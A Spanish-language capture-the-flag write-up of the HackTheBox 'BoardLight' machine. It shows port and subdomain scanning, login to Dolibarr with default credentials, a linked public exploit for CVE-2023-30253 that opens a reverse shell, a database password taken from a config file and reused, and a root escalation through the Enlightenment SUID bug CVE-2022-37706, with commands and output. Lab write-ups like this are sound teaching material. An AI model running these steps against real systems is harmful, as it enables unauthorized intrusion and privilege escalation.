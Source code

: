 # BoardLight


• Subdomain Enumeration
• Dolibarr 17.0.0 Exploitation - CVE-2023-30253
• Information Leakage (User Pivoting)
• Enlightenment SUID Binary Exploitation [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.10.245 -oN targeted
```

Sin embargo no encontramos nada interesante

## Enumeración de sudominios

Despues de hacer un escaneo de dominios y subdominios he encontrado este subdominio interesante con el siguiente comando:

```shell
wfuzz -c --hl=517 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" http://board.htb
```

```shell
000000072:   200        149 L    504 W      6360 Ch     "crm"   
```

## Inspeccionamos la página web

Nos encontramos un panel de login de un ERP/CRM usa la tecnologia `Doliberr 17.0.0.` 

![alt text](Imagenes/Board.png)

Buscando las credenciales por defecto vemos que podemos usar `admin:admin`y tras probarlo accedemos a la panel y exploramos que tiene , sin embargo no aparece nada interesante.

por lo tanto vamos a buscar si algun exploit relacionado para la version que tenemos.


##  Intrusión - Explotamos CVE-2023-30253
Encontramos un exploit que podemos utilizar para la version en la que nos entabla una shell por lo tanto vamos a intentar utilizarla.

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
Para ello lo hacemos de la siguiente manera:

```shell
python3 exploit.py http://example.com login passsword 127.0.0.1 9001
```
Por último obtenemos la shell
 
```shell
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password

```
## User pivoting

Aunque tenemos acceso al servidor nuestro ususario es `www-data`este ususario no nos sirve para ver la flag de user.txt por lo tanto tenemos que mudarnos al ususario `Larissa` podemos intentar varias opciones:

- La primera es probar fuerza bruta en el servicio `ssh` usando el  diccionario `rockyou` este diccionario tiene multiples contraseñas para probar,sin embargo vemos que no encunetra nada 

- La segunda forma es ver si existen ficheros de configuración y nos encontremos con algún usuario y contraseñas .

De esta manera podemos compronbar que en el achivo de configuración nos aparece un usuario y una contraseña

```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Si probamos esta contraseña vemos que es la del usuario Larissa

## Escalada de privilegios:

Comprobamos que podemos hacer los comandos sudo -l este comando como otras veces nos reporta si existe algun fichero que podemos ejecutar como root.

Sin embargo no encontramos nada ,por lo tanto vamos a ver si existen ficheros con permisos SUID o capabilities sospechosas para escalar los privilegios.

Si ejecutamos el comando para listar los binarios que pueden permitir el escaldo nos pecatamos de uno en especial: 

```shell
find / -perm -4000 -user root 2>/dev/null
```

```shell
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
... 
```
Podemos ver que el sercicio `enlightenment` es vulnerable comprobamos la version es 0.23.1

## Explotamos el CV-2022-37706
Como se puede ver ene el siguiente enlace encontramos que exploit vulnerable que nos puede devolver una shell con privilegios abusando de este servicio 
```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit?tab=readme-ov-file
```
Para ello generamos el fichero en nuestro directorio `tmp` y una vez que tenemos esto
ejecutamos el script:

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root

```




